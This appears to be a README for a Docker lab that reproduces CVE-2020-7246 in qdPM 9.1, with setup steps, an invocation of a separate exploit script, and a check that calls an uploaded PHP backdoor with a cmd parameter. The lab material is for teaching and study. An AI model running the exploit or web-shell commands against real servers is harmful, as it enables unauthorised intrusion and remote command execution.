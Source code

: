 # CVE-2020-7246 (qdPM 9.1)

For educational purposes only.

See Reference for the details.


## Run
```
$ git clone https://github.com/arafatansari/QDPMSEC.git
$ cd QDPMSEC
$ docker build -t cve-assignment:ine .
$ docker run -it -p 80:80 cve-assignment:ine
```
## Installation

Checking Environment.
![setup](https://github.com/arafatansari/QDPMSEC/blob/main/images/Installation%20Part%201.jpg?raw=true)

Setting up SQL Server.
![setup](https://github.com/arafatansari/QDPMSEC/blob/main/images/Installation%20Part%202.jpg?raw=true)

Create Admin login/password.
![setup](https://github.com/arafatansari/QDPMSEC/blob/main/images/Installation%20Part%203.jpg?raw=true)

In order to exploit the webapp, you need to have atleast one more admin user. Create a new ADMIN user.
![setup](https://github.com/arafatansari/QDPMSEC/blob/main/images/CreateUser.jpg?raw=true)

Add username, email and password. USE THESE CREDENTIALS in the below exploit parameters.
![setup](https://github.com/arafatansari/QDPMSEC/blob/main/images/CreateUser-2.jpg?raw=true)


## Exploit
```
$ python Exploit/exploit.py -url http://{target-ip}/qdpm/ -u test@localhost.com -p password
```

## Check (exploited)
```
$ http://{target-ip}/qdpm/uploads/users/xxxx-backdoor.php?cmd=whoami
```
